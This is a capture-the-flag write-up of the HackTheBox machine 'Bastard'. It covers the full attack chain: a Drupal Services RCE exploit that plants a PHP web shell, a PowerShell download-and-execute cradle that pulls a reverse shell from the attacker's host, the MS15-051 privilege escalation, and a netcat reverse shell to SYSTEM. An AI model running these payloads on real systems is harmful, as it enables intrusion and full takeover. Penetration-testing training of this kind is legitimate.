





hackthebox Bastard
Released: 18th March 2017 / Pwned: August 29th 2019 - [+] Solved whilst Retired

Bastard requires either dumb luck, prior knowledge or a spending a ridiculous amount of time enumerating for a drupal endpoint. The kernel exploit to priv-esc to SYSTEM is also very unclear, which made this whole box feel very ctf-like to me. You'll find a Drupal site running on port 80, and a PHP vulnerability for the Drupal version installed which will give you remote code execution. From there, you can elevate to a system shell, run powershell scripts to search for priv-escs and download an exploit to the target using Impacket's smbserver.py and elevate to SYSTEM.
1) Nmap
Initial scan:
nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.9
-sC default scripts
-sV service enumeration
-O OS detection
-oN default output
Results:
root@gotham:~/ctf/bastard# mkdir nmap
root@gotham:~/ctf/bastard# nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.9
...
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods:
|_ Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|8.1|2012 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1 ...
Aggressive OS guesses: Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%)...
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
...
Nothing new was revealed with an all-ports scan.
Ports
• 80/http - A webserver running Drupal, which is most likely vulnerable
• 135/rpc - Nothing much to be gained here, can run Impacket's rpcdump.py against it if you want
• 49154/rpc - More RPC, nothing to be gained here either. 49154 is the Remote Task Scheduler service
2) 80/http - Drupal
http://10.10.10.9 is a Drupal page.

If you browse to CHANGELOG.txt, you'll find the Drupal version - 7.54.

3) 41564.php
If you searchsploit for Drupal 7 vulnerabilities, you'll find quite a few.
root@gotham:~# searchsploit drupal 7
----------------------------------------------- ----------------------------------------
Exploit Title | Path
| (/usr/share/exploitdb/)
----------------------------------------------- ----------------------------------------
Drupal 4.7 - 'Attachment mod_mime' Remote Comm | exploits/php/webapps/1821.php
Drupal 4.x - URL-Encoded Input HTML Injection | exploits/php/webapps/27020.txt
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injecti | exploits/php/webapps/34984.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injecti | exploits/php/webapps/34992.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injecti | exploits/php/webapps/34993.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injecti | exploits/php/webapps/35150.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injecti | exploits/php/webapps/44355.php
Drupal 7.12 - Multiple Vulnerabilities | exploits/php/webapps/18564.txt
Drupal 7.x Module Services - Remote Code Execu | exploits/php/webapps/41564.php
...
The interesting one is 41564.php - https://www.exploit-db.com/exploits/41564
This exploit will upload a php file to the target that can you can use for remote code execution on the server.
The exploit needs to be edited, so copy the exploit to a working directory of yours.
root@gotham:~/ctf/bastard/80-http# mkdir drupal-exploits
root@gotham:~/ctf/bastard/80-http# cd drupal-exploits
root@gotham:~/ctf/bastard/80-http/drupal-exploits# cp /usr/share/exploitdb/exploits/php/webapps/41564.php .
Open the exploit with nano and change url to that of the target, endpoint_path to /rest, filename to whatever you like and data to the php code to run inside your file.
Also make sure lines 24 and 70 are commented out (delete the new line, basically)
root@gotham:~/ctf/bastard/80-http/drupal-exploits# nano 41564.php
...
define('ACTION', 'login');
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';
$file = [
'filename' => 'touc.php',
'data' => '<?php echo(system($_GET["cmd"])); ?>'
...
Run the exploit.
root@gotham:~/ctf/bastard/80-http/drupal-exploits# php 41564.php
...
#/usr/bin/php
PHP Fatal error: Uncaught Error: Call to undefined function curl_init() in /root/ctf/bastard/80-http/drupal-exploits/41564.php:254
...
I got a php-curl error, which was fixed by install php-curl.
root@gotham:~/ctf/bastard/80-http/drupal-exploits# sudo apt-get install php-curl
...
Run the exploit.
root@gotham:~/ctf/bastard/80-http/drupal-exploits# php 41564.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce
#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9/touc.php
Success! The exploit has run and our php file has been created.
We can run commands on the server visiting http://10.10.10.9.php?cmd=<command>


Gain Access
4) PowerShell Reverse Shell
The next task is to get a shell on the target.
Download Nishang's Invoke-PowerShellTcp.ps1 script - https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
root@gotham:~/ctf/bastard/nishang# wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
...
Edit Invoke-PowerShellTcp.ps1 and write the IP and port of your attacking machine for the shell to connect to at the bottom of the script.
root@gotham:~/ctf/bastard/nishang# nano Invoke-PowerShellTcp.ps1
...
catch
{
Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
Write-Error $_
}
}
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.8 -Port 9001
Start a listener on your attacking machine to receive the shell.
root@gotham:~# nc -lvnp 9001
listening on [any] 9001 ...
Serve Nishang's PowerShellTcp.ps1 script to the target using python -m SimpleHTTPServer.
root@gotham:~/ctf/bastard/nishang# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
Send a command via the exploited Drupal web-app that downloads Nishang's PowerShell script from your attacking machihne and executes it.
http://10.10.10.9/touc.php?cmd=powershell “IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8:8000/Invoke-PowerShellTcp.ps1')�
You should see PowerShellTcp.ps1 being retrievd from your attacking machine's web server
...
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.9 - - [29/Aug/2019 12:32:42] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
And get a shell on your listener!
...
listening on [any] 9001 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.9] 55738
Windows PowerShell running as user BASTARD$ on BASTARD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\inetpub\drupal-7.54>
Go grab user.txt.
PS C:\inetpub\drupal-7.54> dir C:\Users
Directory: C:\Users
Mode LastWriteTime Length Name
---- ------------- ------ ----
d---- 19/3/2017 1:20 ?? Administrator
d---- 19/3/2017 1:54 ?? Classic .NET AppPool
d---- 19/3/2017 7:35 ?? dimitris
d-r-- 14/7/2009 7:57 ?? Public
PS C:\inetpub\drupal-7.54> cat C:\Users\dimitris\Desktop\user.txt
ba22fde...
Priv-Esc
5a) Find vulns with Sherlock.ps1
Run systeminfo on the target
PS C:\inetpub\drupal-7.54> systeminfo
Host Name: BASTARD
OS Name: Microsoft Windows Server 2008 R2 Datacenter
OS Version: 6.1.7600 N/A Build 7600
OS Manufacturer: Microsoft Corporation
OS Configuration: Standalone Server
OS Build Type: Multiprocessor Free
Registered Owner: Windows User
Registered Organization:
Product ID: 00496-001-0001283-84782
Original Install Date: 18/3/2017, 7:04:46 ??
System Boot Time: 29/8/2019, 12:11:20 ??
System Manufacturer: VMware, Inc.
System Model: VMware Virtual Platform
System Type: x64-based PC
Processor(s): 2 Processor(s) Installed.
[01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
[02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version: Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory: C:\Windows
System Directory: C:\Windows\system32
Boot Device: \Device\HarddiskVolume1
System Locale: el;Greek
Input Locale: en-us;English (United States)
Time Zone: (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory: 2.047 MB
Available Physical Memory: 1.531 MB
Virtual Memory: Max Size: 4.095 MB
Virtual Memory: Available: 3.535 MB
Virtual Memory: In Use: 560 MB
Page File Location(s): C:\pagefile.sys
Domain: HTB
Logon Server: N/A
Hotfix(s): N/A
Network Card(s): 1 NIC(s) Installed.
[01]: Intel(R) PRO/1000 MT Network Connection
Connection Name: Local Area Connection
DHCP Enabled: No
IP address(es)
[01]: 10.10.10.9
The interesting results to note are:
• the OS is Windows Server 2008 R2
• This is an x64 machine
• There aren't any Hotfixes (updates) installed
Windows Server 2008 R2 is pretty old, and considering there's no updates installed there's most likely an OS exploit that will elevate us to SYSTEM.
Sherlock, written by RastaMouse, is a PowerShell script that will check for local privilege escalation vulnerabilities.
https://github.com/rasta-mouse/Sherlock
wget Sherlock to your attacking system and edit it with nano and write the Find-AllVulns function into the end of the script, because we want to check for all vulnerabilites.
root@gotham:~/ctf/bastard/nishang# wget https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1
...
root@gotham:~/ctf/bastard/nishang# nano Sherlock.ps1
...
}
Set-ExploitTable $MSBulletin $VulnStatus
}
Find-AllVulns
Serve the script to the target machine using Impacket's smbserver.py.
Create a share inside the folder containing the script
smbserver.py <sharename> <directory to share>
root@gotham:~/ctf/bastard/priv-esc# smbserver.py PWNPLS ./
Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
...
Check that you can access the share from the target system
PS C:\inetpub\drupal-7.54>dir \\10.10.14.8\PWNPLS
Directory: \\10.10.14.8\PWNPLS
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a--- 29/8/2019 6:38 ?? 16679 Sherlock.ps1
And download Sherlock.ps1 to the target using copy.
PS C:\inetpub\drupal-7.54> copy \\10.10.14.8\PWNPLS\Sherlock.ps1 ./
Run Sherlock.ps1 by setting the ExecutionPolicy to Bypass.
PS C:\inetpub\drupal-7.54>Set-ExecutionPolicy Bypass -Scope Process
PS C:\inetpub\drupal-7.54> .\Sherlock.ps1
...
Title : Task Scheduler .XML
MSBulletin : MS10-092
CVEID : 2010-3338, 2010-3888
Link : https://www.exploit-db.com/exploits/19930/
VulnStatus : Appears Vulnerable
...
Title : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID : 2015-1701, 2015-2433
Link : https://www.exploit-db.com/exploits/37367/
VulnStatus : Appears Vulnerable
...
Title : Secondary Logon Handle
MSBulletin : MS16-032
CVEID : 2016-0099
Link : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable
...
3 potential vulnerabilties found.
The reliable one is MS15-051.
5b) MS15-051
I retrieved a compiled x64 binary of the MS15-051 exploit here - https://github.com/jivoi/pentest/blob/master/exploit_win/ms15-051
root@gotham:~/ctf/bastard/priv-esc# wget https://github.com/rootphantomer/exp/raw/master/ms15-051%EF%BC%88%E4%BF%AE%E6%94%B9%E7%89%88%EF%BC%89/ms15-051/ms15-051/x64/ms15-051.exe
...
Download the exploit to the target system using the smb share set up earlier with copy.
This exploit requires you to run the binary and provide a privileged command to run, so run the exploit with whoami.
You should have nt/authority system privileges!
PS C:\inetpub\drupal-7.54> copy \\10.10.14.8\PWNPLS\ms15-051.exe ./
PS C:\inetpub\drupal-7.54> .\ms15-051.exe whoami
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 576 created.
==============================
nt authority\system
5c) Get an interactive SYSTEM shell
In order to get a shell, download an x64 netcat windows binary and serve it to the target using your smb share.
You can a netcat 64-bit binary from here - https://eternallybored.org/misc/netcat/
root@gotham:~/ctf/bastard/priv-esc# wget https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip
...
root@gotham:~/ctf/bastard/priv-esc# unzip netcat-win32-1.12.zip
Archive: netcat-win32-1.12.zip
...
inflating: nc.exe
inflating: nc64.exe
And download nc64.exe to the target
PS C:\inetpub\drupal-7.54> copy \\10.10.14.8\PWNPLS\nc64.exe ./
Start a listener on your attacking machine
root@gotham:~# nc -lvnp 9005
listening on [any] 9005 ...
And run the exploit with nc64.exe to send yourself a SYSTEM reverse shell.
PS C:\inetpub\drupal-7.54> .\ms15-051.exe "nc64.exe -e cmd 10.10.14.8 9005"
...
listening on [any] 9005 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.9] 49190
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
We're SYSTEM (again)!
Go grab root.txt.
C:\inetpub\drupal-7.54>type C:\Users\Administrator\Desktop\root.txt.txt
type C:\Users\Administrator\Desktop\root.txt.txt
4bf12b9...